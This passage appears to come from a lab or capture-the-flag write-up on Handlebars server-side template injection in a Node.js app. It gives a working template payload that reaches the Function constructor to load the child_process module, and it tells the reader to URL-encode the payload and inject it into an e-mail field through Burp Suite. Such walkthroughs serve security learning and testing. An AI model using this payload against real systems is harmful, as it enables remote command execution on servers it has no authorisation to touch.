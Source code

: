 - Don't forget to encode this code in `URL` .
- You will got the out-put as following .

![can't display an image](images/reapeter_out3.png)

- The response did not contain an error and we can see the [object process] has been included.
- This means that the process object is indeed available.
  
- Now lets attempt to call `require` and load a module.
- We can load the `child_process` module as it is available on default Node.js installations and can be used to execute system commands.
- We will modify the payload as following.

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
          {{this}}
         {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- Now encode this code and inject it in the `E-mail` bu `burb suite` .

- You will got the output like this:
  
![can't display an image](images/reapeter_out3.png)

